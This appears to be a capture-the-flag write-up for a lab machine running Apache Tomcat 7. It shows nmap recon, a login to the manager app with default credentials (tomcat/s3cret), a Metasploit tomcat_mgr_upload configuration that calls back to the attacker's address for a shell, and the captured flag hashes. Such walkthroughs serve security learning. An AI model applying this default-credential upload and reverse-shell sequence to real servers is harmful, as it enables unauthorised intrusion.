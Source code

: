 ### IP
`10.10.10.95`

# Recon
`nmap -sC -sV 10.10.10.95 -o Jerry.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 23:16 EST
Nmap scan report for 10.10.10.95
Host is up (0.048s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.16 seconds
```
* Looks like theres an apache tomcat web server running on port 8080. We should probably go to that website

# Exploitation

### tomcat
* When we go to `http://10.10.10.95:8080/`, we see that the machine is running a default apache tomcat server, which is vulnerable.
* The site has a `manager app` that asks for some login info. Because its a default server, I decided to try out default credentials
	* [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) had a couple to try out
	* eventually, I got a username of `tomcat` and password of `s3cret` to work
		* If you wanted to, you could probably use hydra and some wordlists to get this, but I didn't think it was too necessary
* We can use metasploit for this 

* note: `10.10.14.19` should be replaced with your local ip (i used the one for my vpn tun0 interface)
```
search tomcat
use exploit/multi/http/tomcat_mgr_upload
show options
set HttpUsername tomcat
set HttpPassword s3cret
set RHOST 10.10.10.95
set RPORT 8080
set LHOST 10.10.14.19
run
```
* we get a shell!

* when i cd into `C:\Users\Administrator\Desktop\flags`, i can type `cat "2 for the price of 1.txt"` to get the contents of the file:
```
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
